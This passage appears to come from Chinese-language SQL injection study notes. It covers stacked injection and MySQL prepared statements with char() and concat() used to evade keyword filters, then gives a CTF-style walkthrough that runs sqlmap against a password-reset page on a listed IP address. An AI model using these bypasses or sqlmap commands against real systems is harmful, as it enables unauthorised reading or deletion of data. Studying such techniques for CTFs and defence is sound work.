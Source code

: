 第一条显示查询信息，第二条则将整个表进行删除

##### 局限

堆叠注入并不适用于每一个环境下，可能会受到API或者数据库引擎不支持的限制。

### 预处理+堆叠注入

预处理语句的使用：

```mysql
PREPARE name from '[mysql sequece]'；//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE name;	//删除预定义sql语句
```

预定义语句也可以通过变量进行传递：

```mysql
SET @tn = 'hahaha';					//存储表名
SET @sql = concat('select * from ', @tn);//存储sql语句
PREPARE name from @sql;				//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE sqla;	//删除预定义sql语句
```

可以利用char()方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的sql语句，从而绕过过滤或者直接使用`concat()`方法绕过。

```mysql
char()								//根据ASCII表返回给指定整数值的字符值
example:
mysql>SELECT CHAR(77,121,83,81,76);
->'mysql'

concat()							//将多个字符串连接成一个字符串
concat(str1,str2);
example:
mysql>SELECT CONCAT('my','s','ql');
->'mysql'
```

>char(115,101,108,101,99,116)<--->'select'



### sqlmap

打开后是个界面，到处乱点也没有找到啥有意义的东西，先用御剑跑网页，找不到什么特殊的东西。

​    然后尝试用sqlmap跑每一个网页，发现在找回密码的页面有注入

​    开始注入

python2 sqlmap.py -u "http://111.198.29.45:51492/findpwd.php" --data="username=1" --dbs

![image-20200919202400968](SQL注入.assets/image-20200919202400968.png)
